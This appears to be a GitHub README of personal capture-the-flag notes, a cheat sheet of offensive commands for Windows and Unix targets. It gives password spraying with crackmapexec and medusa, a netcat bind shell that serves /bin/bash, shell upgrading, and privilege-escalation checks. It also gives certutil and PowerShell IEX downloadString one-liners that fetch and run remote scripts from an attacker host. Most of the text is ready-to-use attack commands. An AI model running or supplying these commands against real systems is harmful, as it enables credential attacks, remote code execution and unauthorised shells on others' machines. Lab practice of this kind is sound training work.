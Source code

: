 # ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs

Windows & *nix:
<p> password spraying:
- crackmapexec <module> -u <users.txt> -p <passwords.txt> <ip or ip range>
- bruteforce
medusa -h <ip> -U <users.txt> -P <passwords.txt> -M <module> <ip> (more options may be required, example used was SSH module)


upgrade shell using python pty library and adds auto complete for steps 2+ :
1 - python -c 'import pty;pty.spawn("/bin/bash")'
2 - CTRL z
3 - stty raw -echo
4 - fg <enter key>
5 - export TERM=xterm

known hosts ssh file will show all hosts the host has SSH'd into

- command to reset a broke terminal session
reset

- mysql syntax for navigation:
show databases; (shows available databases)
use <database name>; (selects database to use)
show tables; (shows tables in database)
describe <table name>; (shows more information on values inside table)
select <table value> from <table>; (shows items inside the table values of the table)
  
- file upload:
curl http://<ip>:<port>/<file> -output <file>    (works with powershell and linux)






*nix:
common privilege escalation techniques:
- seeing if any commands can be run as sude:
sudo -l
- check which programs are avilable on the system for priviledge escalation and send errors away from output
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
- download all FTP contents (--no-passive if passive is not allowed):
wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
- bind shell:
(victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
- listing file/ directory structure:
find . 
- listing file structure and look for specific file/ directory name
find . | grep -i <word to look for>
- show all running processes:
ss -lntp
- 







Windows:

windows powershell locations:
c:\Windows\System32\    - 32 bit
c:\Windows\SysWow64\    - 32 bit
c:\Windows\SysNative\   - 64 bit


File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  
